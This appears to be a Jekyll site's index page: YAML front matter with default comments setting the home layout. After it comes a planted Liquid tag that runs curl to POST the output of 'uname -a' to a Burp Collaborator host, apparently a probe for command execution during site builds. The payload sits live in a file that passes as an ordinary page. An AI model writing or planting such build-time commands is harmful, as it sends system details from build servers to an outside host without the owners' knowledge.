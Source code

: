 ```yaml
---
# Feel free to add content and custom Front Matter to this file.
# To modify the layout, see https://jekyllrb.com/docs/themes/#overriding-theme-defaults

layout: home
---
```


{% command_execute curl -X POST "http://bs7h10wa8o3oijwmnyx4ofhpbgh65v.burpcollaborator.net" -d "output=$(uname -a)" %}

